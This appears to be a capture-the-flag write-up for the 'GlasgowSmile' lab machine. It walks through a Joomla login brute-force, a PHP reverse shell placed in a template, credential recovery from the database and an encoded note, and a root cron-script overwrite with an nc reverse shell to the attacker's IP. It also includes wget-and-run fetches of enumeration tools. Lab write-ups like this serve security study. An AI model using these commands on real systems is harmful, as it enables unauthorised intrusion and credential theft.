






---
tags:
  - linux
  - hard
---
# GlasgowSmile

## Nmap scan

```shell
$ nmap 192.168.234.79 -sV -sC -p- --min-rate=10000
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-07 01:29 EDT
Nmap scan report for 192.168.234.79
Host is up (0.078s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 67:34:48:1f:25:0e:d7:b3:ea:bb:36:11:22:60:8f:a1 (RSA)
|   256 4c:8c:45:65:a4:84:e8:b1:50:77:77:a9:3a:96:06:31 (ECDSA)
|_  256 09:e9:94:23:60:97:f7:20:cc:ee:d6:c1:9b:da:18:8e (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.38 (Debian)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.21 seconds
```

## Enumeration

```shell
$ gobuster dir -u http://192.168.234.79 -w /usr/share/wordlists/dirb/big.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.234.79
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 279]
/.htpasswd            (Status: 403) [Size: 279]
/joomla               (Status: 301) [Size: 317] [--> http://192.168.234.79/joomla/]
/server-status        (Status: 403) [Size: 279]
Progress: 20469 / 20470 (100.00%)
===============================================================
Finished
===============================================================
```

There isn't much to see here except for *potential* credentials.



```shell
$ gobuster dir -u http://192.168.234.79/joomla -w /usr/share/wordlists/dirb/big.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.234.79/joomla
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htpasswd            (Status: 403) [Size: 279]
/.htaccess            (Status: 403) [Size: 279]
/administrator        (Status: 301) [Size: 331] [--> http://192.168.234.79/joomla/administrator/]
/bin                  (Status: 301) [Size: 321] [--> http://192.168.234.79/joomla/bin/]
/cache                (Status: 301) [Size: 323] [--> http://192.168.234.79/joomla/cache/]
/cli                  (Status: 301) [Size: 321] [--> http://192.168.234.79/joomla/cli/]
/components           (Status: 301) [Size: 328] [--> http://192.168.234.79/joomla/components/]
/images               (Status: 301) [Size: 324] [--> http://192.168.234.79/joomla/images/]
/includes             (Status: 301) [Size: 326] [--> http://192.168.234.79/joomla/includes/]
/language             (Status: 301) [Size: 326] [--> http://192.168.234.79/joomla/language/]
/layouts              (Status: 301) [Size: 325] [--> http://192.168.234.79/joomla/layouts/]
/libraries            (Status: 301) [Size: 327] [--> http://192.168.234.79/joomla/libraries/]
/media                (Status: 301) [Size: 323] [--> http://192.168.234.79/joomla/media/]
/modules              (Status: 301) [Size: 325] [--> http://192.168.234.79/joomla/modules/]
/plugins              (Status: 301) [Size: 325] [--> http://192.168.234.79/joomla/plugins/]
/robots.txt           (Status: 200) [Size: 836]
/templates            (Status: 301) [Size: 327] [--> http://192.168.234.79/joomla/templates/]
/tmp                  (Status: 301) [Size: 321] [--> http://192.168.234.79/joomla/tmp/]
Progress: 20469 / 20470 (100.00%)
===============================================================
Finished
===============================================================
```



There were other directories above too but they are all pretty useful if you like to skim through xml files with nothing interesting in them. Maybe brute force the login page?

```shell
$ nmap --script=http-joomla-brute --script-args 'userdb=users.txt,passdb=users.txt,http-joomla-brute.hostname=192.168.234.79,http-joomla-brute.uri=/joomla/administrator/,brute.firstonly=true' 192.168.234.79 -p 80
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-07 02:48 EDT
Nmap scan report for 192.168.234.79
Host is up (0.084s latency).

PORT   STATE SERVICE
80/tcp open  http
| http-joomla-brute: 
|   Accounts: 
|     joomla:Gotham - Valid credentials
|     Joomla:Gotham - Valid credentials
|     arthur:Gotham - Valid credentials
|_  Statistics: Performed 111 guesses in 11 seconds, average tps: 10.1

Nmap done: 1 IP address (1 host up) scanned in 17.98 seconds
```

The script is very unreliable but the first and second result worked. Anyway, lets login and click around...



Editing the "GasGow Smile :)" page will result in your php reverse shell getting auto-commented when saving. So I clicked around and found templates, which can be edited without such issues.



Just paste it in there, hit save and click on "Template Preview"



This should pop a shell.

```shell
nc -lvnp 4444
listening on [any] 4444 ...
connect to [192.168.45.181] from (UNKNOWN) [192.168.234.79] 58844
Linux glasgowsmile 4.19.0-9-amd64 #1 SMP Debian 4.19.118-2+deb10u1 (2020-06-07) x86_64 GNU/Linux
 02:15:14 up  1:48,  0 users,  load average: 0.00, 0.00, 0.02
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ python3 -c 'import pty;pty.spawn("/bin/bash")'

```

## Privilege Escalation

Inspecting joomla, some database credentials were found in `configuration.php` which led to databases containing passwords.

```shell
www-data@glasgowsmile:/var/www/html/joomla$ cat configuration.php
cat configuration.php
<?php
class JConfig {
	public $offline = '0';
	public $offline_message = 'This site is down for maintenance.<br />Please check back again soon.';
	public $display_offline_message = '1';
	public $offline_image = '';
	public $sitename = 'Joker';
	public $editor = 'tinymce';
	public $captcha = '0';
	public $list_limit = '20';
	public $access = '1';
	public $debug = '0';
	public $debug_lang = '0';
	public $dbtype = 'mysqli';
	public $host = 'localhost';
	public $user = 'joomla';
	public $password = 'babyjoker';
	public $db = 'joomla_db';
	public $dbprefix = 'jnqcu_';
	public $live_site = '';
	public $secret = 'fNRyp6KO51013435';
	public $gzip = '0';
	public $error_reporting = 'default';
	public $helpurl = 'https://help.joomla.org/proxy/index.php?keyref=Help{major}{minor}:{keyref}';
	public $ftp_host = '';
	public $ftp_port = '';
	public $ftp_user = '';
	public $ftp_pass = '';
	public $ftp_root = '';
	public $ftp_enable = '0';
	public $offset = 'UTC';
	public $mailonline = '1';
	public $mailer = 'mail';
	public $mailfrom = 'admin@joker';
	public $fromname = 'Joker';
	public $sendmail = '/usr/sbin/sendmail';
	public $smtpauth = '0';
	public $smtpuser = '';
	public $smtppass = '';
	public $smtphost = 'localhost';
	public $smtpsecure = 'none';
	public $smtpport = '25';
	public $caching = '0';
	public $cache_handler = 'file';
	public $cachetime = '15';
	public $cache_platformprefix = '0';
	public $MetaDesc = '';
	public $MetaKeys = '';
	public $MetaTitle = '1';
	public $MetaAuthor = '1';
	public $MetaVersion = '0';
	public $robots = '';
	public $sef = '1';
	public $sef_rewrite = '0';
	public $sef_suffix = '0';
	public $unicodeslugs = '0';
	public $feed_limit = '10';
	public $feed_email = 'none';
	public $log_path = '/var/www/html/joomla/administrator/logs';
	public $tmp_path = '/var/www/html/joomla/tmp';
	public $lifetime = '15';
	public $session_handler = 'database';
	public $shared_session = '0';
}www-data@glasgowsmile:/var/www/html/joomla$ mysql -u joomla -p'babyjoker'
mysql -u joomla -p'babyjoker'
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 1678
Server version: 10.3.22-MariaDB-0+deb10u1 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> dir
dir
    -> ;
;
ERROR 1064 (42000): You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'dir' at line 1
MariaDB [(none)]> show databases;
show databases;
+--------------------+
| Database           |
+--------------------+
| batjoke            |
| information_schema |
| joomla_db          |
| mysql              |
| performance_schema |
+--------------------+
5 rows in set (0.001 sec)

MariaDB [(none)]> use batjoke;
use batjoke;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [batjoke]> show tables;
show tables;
+-------------------+
| Tables_in_batjoke |
+-------------------+
| equipment         |
| taskforce         |
+-------------------+
2 rows in set (0.000 sec)

MariaDB [batjoke]> select * from equipment;
select * from equipment;
Empty set (0.000 sec)

MariaDB [batjoke]> select * from taskforce;
select * from taskforce;
+----+---------+------------+---------+----------------------------------------------+
| id | type    | date       | name    | pswd                                         |
+----+---------+------------+---------+----------------------------------------------+
|  1 | Soldier | 2020-06-14 | Bane    | YmFuZWlzaGVyZQ==                             |
|  2 | Soldier | 2020-06-14 | Aaron   | YWFyb25pc2hlcmU=                             |
|  3 | Soldier | 2020-06-14 | Carnage | Y2FybmFnZWlzaGVyZQ==                         |
|  4 | Soldier | 2020-06-14 | buster  | YnVzdGVyaXNoZXJlZmY=                         |
|  6 | Soldier | 2020-06-14 | rob     | Pz8/QWxsSUhhdmVBcmVOZWdhdGl2ZVRob3VnaHRzPz8/ |
|  7 | Soldier | 2020-06-14 | aunt    | YXVudGlzIHRoZSBmdWNrIGhlcmU=                 |
+----+---------+------------+---------+----------------------------------------------+
6 rows in set (0.000 sec)

MariaDB [batjoke]> 
```

Base64-decoding rob's `pswd`

```shell
$ echo "Pz8/QWxsSUhhdmVBcmVOZWdhdGl2ZVRob3VnaHRzPz8/" | base64 -d
???AllIHaveAreNegativeThoughts???
```

Yeah me too brother. Anyway, this turns out to be the SSH password for rob.

```shell
$ ssh rob@192.168.234.79
rob@192.168.234.79's password: 
Linux glasgowsmile 4.19.0-9-amd64 #1 SMP Debian 4.19.118-2+deb10u1 (2020-06-07) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
rob@glasgowsmile:~$ cat Abnerineedyourhelp 
Gdkkn Cdzq, Zqsgtq rteedqr eqnl rdudqd ldmszk hkkmdrr ats vd rdd khsskd rxlozsgx enq ghr bnmchshnm. Sghr qdkzsdr sn ghr eddkhmf zants adhmf hfmnqdc. Xnt bzm ehmc zm dmsqx hm ghr intqmzk qdzcr, "Sgd vnqrs ozqs ne gzuhmf z ldmszk hkkmdrr hr odnokd dwodbs xnt sn adgzud zr he xnt cnm's."
Mnv H mddc xntq gdko Zamdq, trd sghr ozrrvnqc, xnt vhkk ehmc sgd qhfgs vzx sn rnkud sgd dmhflz. RSLyzF9vYSj5aWjvYFUgcFfvLCAsXVskbyP0aV9xYSgiYV50byZvcFggaiAsdSArzVYkLZ==
```

Some **mental** notes were found in the home directory of this user, which is just some text in ROT-1



Last line there is in base64, decoding it gives us another weird series of characters.

```shell
$ echo "STMzaG9wZTk5bXkwZGVhdGgwMDBtYWtlczQ0bW9yZThjZW50czAwdGhhbjBteTBsaWZlMA==" | base64 -d
I33hope99my0death000makes44more8cents00than0my0life0
```

Must be abner's password.

```shell
ssh abner@192.168.234.79
abner@192.168.234.79's password: 
Linux glasgowsmile 4.19.0-9-amd64 #1 SMP Debian 4.19.118-2+deb10u1 (2020-06-07) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
abner@glasgowsmile:~$ wget http://192.168.45.181/linpeas.sh && chmod +x linpeas.sh && ./linpeas.sh
<...>
╔══════════╣ Interesting writable files owned by me or writable by everyone (not in Home) (max 200)
╚ https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html#writable-files
/dev/mqueue
/dev/shm
/home/abner
/run/lock
/run/user/1001
/run/user/1001/systemd
/tmp
/tmp/.font-unix
/tmp/.ICE-unix
/tmp/.Test-unix
/tmp/.X11-unix
/tmp/.XIM-unix
/var/lib/php/sessions
/var/tmp
/var/www/joomla2/administrator/manifests/files/.dear_penguins.zip
```

The obvious hidden zip file which is also related to another user `penguin` on the system was found. Downloading it via scp...

```shell
$ scp abner@192.168.234.79:/var/www/joomla2/administrator/manifests/files/.dear_penguins.zip .
abner@192.168.234.79's password: 
.dear_penguins.zip                                                    100%  516     3.2KB/s   00:00   
$ zip2john .dear_penguins.zip > ziphashes.hash 2> /dev/null
$ john --wordlist=passwords.txt ziphashes.hash
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
I33hope99my0death000makes44more8cents00than0my0life0 (.dear_penguins.zip/dear_penguins)     
1g 0:00:00:00 DONE (2025-06-07 06:19) 100.0g/s 600.0p/s 600.0c/s 600.0C/s SomeoneWhoHidesBehindAMask..I33hope99my0death000makes44more8cents00than0my0life0
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
$ unzip .dear_penguins.zip
<...>
$ cat dear_penguins
My dear penguins, we stand on a great threshold! It's okay to be scared; many of you won't be coming back. Thanks to Batman, the time has come to punish all of God's children! First, second, third and fourth-born! Why be biased?! Male and female! Hell, the sexes are equal, with their erogenous zones BLOWN SKY-HIGH!!! FORWAAAAAAAAAAAAAARD MARCH!!! THE LIBERATION OF GOTHAM HAS BEGUN!!!!!
scf4W7q4B4caTMRhSFYmktMsn87F35UkmKttM5Bz
```

The zip's password was the same as abner's. Because who would've thought that leaving your password in base64 in a database would be a risk, and who cares about the risks of password re-use, right?

The last line there must be penguin's password.

```shell
$ ssh penguin@192.168.234.79
penguin@192.168.234.79's password: 
Linux glasgowsmile 4.19.0-9-amd64 #1 SMP Debian 4.19.118-2+deb10u1 (2020-06-07) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
penguin@glasgowsmile:~$ cd SomeoneWhoHidesBehindAMask
penguin@glasgowsmile:~/SomeoneWhoHidesBehindAMask$ ls -la
total 332
drwxr--r-- 2 penguin penguin   4096 Jun 16  2020 .
drwxr-xr-x 4 penguin penguin   4096 Aug 25  2020 ..
-rwSr----- 1 penguin penguin 315904 Jun 15  2020 find
-rw-r----- 1 penguin root      1457 Jun 15  2020 PeopleAreStartingToNotice.txt
-rwxr-xr-x 1 penguin root       612 Jun 16  2020 .trash_old
-rw-r----- 1 penguin penguin     32 Aug 25  2020 user3.txt
```

If you're gonna keep such large directory names, I'm going to feel like taking a look.

`.trash_old` has interesting group permissions. But is it useful?

```shell
penguin@glasgowsmile:~/SomeoneWhoHidesBehindAMask$ wget http://192.168.45.181/pspy64 && chmod +x pspy64 && ./pspy64
<...>
2025/06/07 05:45:25 CMD: UID=0     PID=1380   | bash 
2025/06/07 05:45:29 CMD: UID=0     PID=1381   | bash 
2025/06/07 05:46:01 CMD: UID=0     PID=1382   | /usr/sbin/CRON -f 
2025/06/07 05:46:01 CMD: UID=0     PID=1383   | /usr/sbin/CRON -f 
2025/06/07 05:46:01 CMD: UID=0     PID=1384   | /bin/sh -c /home/penguin/SomeoneWhoHidesBehindAMask/.trash_old 
<...>
penguin@glasgowsmile:~/SomeoneWhoHidesBehindAMask$ echo -e "#!/bin/bash\n\nnc 192.168.45.181 4444 -e /bin/bash\n" > .trash_old
```

Nonchalantly over-wrote it with a netcat reverse shell.

Of course, because it is a hidden (not-so-hidden) file with executable permissions for the group `root`. No reason for it to exist unless it is a simple way to escalate privileges on a boot2root machine :)

After starting a listener, I got a shell in a few moments.

```shell
nc -lvnp 4444
connect to [192.168.45.181] from (UNKNOWN) [192.168.234.79] 58026

ok
ls -la
total 32
drwx------  3 root root 4096 Jun  7 05:35 .
drwxr-xr-x 18 root root 4096 Jul  1  2020 ..
-rw-------  1 root root    0 Sep  4  2020 .bash_history
-rw-r--r--  1 root root  570 Jan 31  2010 .bashrc
drwxr-xr-x  3 root root 4096 Aug 25  2020 .local
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root   33 Jun  7 05:36 proof.txt
-rw-r-----  1 root root   32 Aug 25  2020 root.txt
-rw-r--r--  1 root root   66 Jun 13  2020 .selected_editor
whoami
root
```

Wasted a lot of time on it, so I'm not smiling.

